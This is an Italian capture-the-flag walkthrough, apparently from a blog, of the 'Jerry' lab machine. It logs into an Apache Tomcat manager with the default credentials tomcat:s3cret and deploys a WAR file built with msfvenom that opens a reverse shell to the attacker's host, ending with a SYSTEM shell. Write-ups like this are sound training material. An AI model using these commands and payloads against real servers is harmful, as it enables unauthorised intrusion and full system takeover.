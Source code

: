 ```yaml
---
title: "Jerry Walkthrough"
description: "Jerry è una macchina Windows di difficoltà easy che dimostra come sfruttare Apache Tomcat, ottenendo una shell di NT Authority \ SYSTEM e compromettendo completamente il target."
author: dua2z3rr
date: 2025-08-14 1:00:00
categories: [Machines]
tags: ["Area di Interesse: Common Services", "Area di Interesse: Security Tools", "Area di Interesse: Enterprise Network", "Area di Interesse: Vulnerability Assessment", "Vulnerabilità: Remote Code Execution", "Vulnerabilità: Arbitrary File Upload", "Vulnerabilità: Default Credentials", "Codice: Java"]
image: /assets/img/jerry/jerry-resized.png"
---
```


## Enumerazione Esterna

### Nmap

Cominciamo con un nmap.

```shell
┌─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap 10.10.10.95 -vv -p-
<SNIP>
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127

<SNIP>

┌─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap 10.10.10.95 -sC -sV -vv -p 8080
<SNIP>
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
```

Possiamo vedere che sulla porta 8080 è prsente un **Apache Tomcat**

### HTTP

Aggiungiomo l'indirizzo ip al file `/etc/hosts`.

```Shell
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
# Others

10.10.10.95 jerry.htb
```

Visitiamo la porta 8080.

![Desktop View](/assets/img/jerry/jerry-sito.png)

Ci troviamo nella pagina iniziale subito dopo la installazione di apache tomcat. Esploriamola.

Nella documentazione del manager, troviamo questo:
![Desktop View](/assets/img/jerry/web-manager-jerry.png)

Proviamo ad accedere a `/manager/html`.

![Desktop View](/assets/img/jerry/jerry-login.png)

Fin ad ora, Apache tomcat sembra non abbia ricevuto modifiche. Proviamo ad accedere con le credeniali di default.

Ecco le credenziali di default per Tomcat 7.0.88: <https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown>

Si riesce ad accedere tramite alle credenziali **tomcat:s3cret** e ci ritroviamo alla pagina di tomcat Web Application Manager.

![Desktop View](/assets/img/jerry/jerry-web-application-manager.png)

Se le credenziali di default non avessero funzionato, avremmo dovuto provare ad accedere attraverso un brute-force attack con tool come **hydra** o **medusa**.

## Exploitation

Ora dobbiamo cercare un modo per ottenere una shell sulla macchna che hosta tomcat.

Possiamo fare il deploy di WAR sul sito.

![Desktop View](/assets/img/jerry/jerry-war-deploy.png)

Creiamo un fie WAR per ottenere una reverse shell.

```shell
┌─[dua2z3rr@parrot]─[~/Boxes/jerry]
└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=9001 -f war -o rshell.war
Payload size: 1092 bytes
Final size of war file: 1092 bytes
Saved as: rshell.war
```

Procediamo col deploy del file WAR e otteniamo una reverse shell.

```shell
┌─[✗]─[dua2z3rr@parrot]─[~]
└──╼ $nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.10.95 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

Troviamo le flag e terminiamo la box.

## Conclusione

Jerry rappresenta un classico esempio di come configurazioni insicure su servizi comuni possano portare a compromissioni totali del sistema. La facilità di exploitation sottolinea l'importanza degli hardening baseline.
